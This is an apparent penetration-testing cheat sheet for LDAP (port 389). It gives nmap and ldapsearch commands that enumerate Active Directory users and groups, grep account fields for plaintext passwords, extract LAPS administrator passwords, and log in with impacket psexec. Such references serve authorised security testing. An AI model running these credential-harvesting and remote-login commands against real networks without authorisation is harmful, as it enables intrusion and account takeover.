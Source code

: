 # 389 - LDAP

## Enumeration

```
nmap -n -sV --script "ldap* and not brute" <ip>  
```

### Empty login

Enumerate users and associated data. The description field may contain plaintext credentials. The subdomain is usually the hostname of the machine.

```
ldapsearch -h <ip> -x -s base -b '' "(objectClass=*)" "*"    #dump all

ldapsearch -x -h <ip> -D "" -w "" -b "DC=<subdomain>,DC=<tld>" | grep sAMAccountName
ldapsearch -x -h <ip> -D "" -w "" -b "DC=<subdomain>,DC=<tld>" | grep description
ldapsearch -x -h <ip> -D "" -w "" -b "DC=<subdomain>,DC=<tld>" | grep userpas
```

## Enumeration with credentials

```
ldapsearch -x -h <ip> -D '<domain>\<user>' -w '<pass>' -b "<CN string>,DC=<subdomain>,DC=<TLD>"
```

Set `CN string` to one of the following values:

* `CN=Users`: list all users
* `CN=Administrators,CN=Builtin`: list all administrators
* `CN=<username>,CN=Users`: get information about a specific user
* `CN=Domain Admins,CN=Users`: list domain admins
* `CN=Domain Users,CN=Users`: list domain users
* `CN=Enterprise Admins,CN=Users`: list enterprise admins
* `CN=Computers`: list machines

## Administrative password

Requires access to LDAP with a valid username and password.

```
ldapsearch -x -h <ip> -D '<domain>\<user>' -w '<pass>' -b "DC=<subdomain>,DC=<tld>" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
```

If successful it is possible to login using impacket's psexec.py script. The user is usually the local administrator.

```
psexec.py <domain>/administrator:'<pass>'@<ip>
```

